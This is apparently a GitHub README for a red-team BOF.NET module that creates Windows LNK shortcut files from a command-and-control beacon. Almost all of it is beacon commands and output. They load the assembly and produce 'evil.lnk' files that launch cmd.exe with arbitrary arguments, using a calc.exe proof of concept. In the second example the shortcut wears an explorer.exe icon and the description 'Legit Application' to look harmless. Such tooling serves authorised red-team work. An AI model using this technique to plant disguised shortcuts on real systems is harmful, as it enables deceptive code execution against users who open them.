# LNK Creation BOF.NET
This is a simple [BOF.NET](https://github.com/CCob/BOF.NET) class for creating LNK files.

Dependent on the awesome [BOF.NET](https://github.com/CCob/BOF.NET) project created by [CCob](https://twitter.com/_EthicalChaos_).

## Usage
Initiate BOF.NET and load the assembly:
```
beacon> bofnet_init
[*] Initializing BOFNET
[+] host called home, sent: 487585 bytes
[+] received output:
[+] BOFNET Runtime Initalized, assembly size 480768, .NET Runtime Version: 4.0.30319.42000 in AppDomain BOFNET

beacon> bofnet_load /tools/lnkcreate.dll
[*] Attempting to load large .NET assembly /tools/lnkcreate.dll into BOFNET
[+] host called home, sent: 14530 bytes
[+] received output:
[+] Setting up new loader with unique id RINU6WCY
[+] Loaded assembly lnkcreate, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null successfully
```

Create a LNK file to run `cmd.exe` wtih arguments to run `calc.exe`:
```
beacon> bofnet_execute BOFNET.Bofs.LNKCreate c:\users\user\desktop\evil.lnk cmd.exe "/c calc.exe"
[*] Attempting to execute BOFNET BOFNET.Bofs.LNKCreate
[+] host called home, sent: 6872 bytes
[+] received output:
[+] Creating LNK file...
Path: c:\users\user\desktop\evil.lnk
Target: cmd.exe
Arguments: /c calc.exe
SHA-256: 17630EE28931B27DACAB2BB63ACBEAEBDF2B25D7C96BA6611D098C932CB6D44B

[+] LNK created successfully!
```

Create a LNK file while setting the LNK icon to `explorer.exe` and adding a description:
```
beacon> bofnet_execute BOFNET.Bofs.LNKCreate c:\users\user\desktop\evil.lnk cmd.exe "/c calc.exe" C:\Windows\explorer.exe "Legit Application"
[*] Attempting to execute BOFNET BOFNET.Bofs.LNKCreate
[+] host called home, sent: 6934 bytes
[+] received output:
[+] Creating LNK file...
Path: c:\users\user\desktop\evil.lnk
Target: cmd.exe
Arguments: /c calc.exe
Icon: C:\Windows\explorer.exe
Description: Legit Application
SHA-256: 17630EE28931B27DACAB2BB63ACBEAEBDF2B25D7C96BA6611D098C932CB6D44B

[+] LNK created successfully!
```
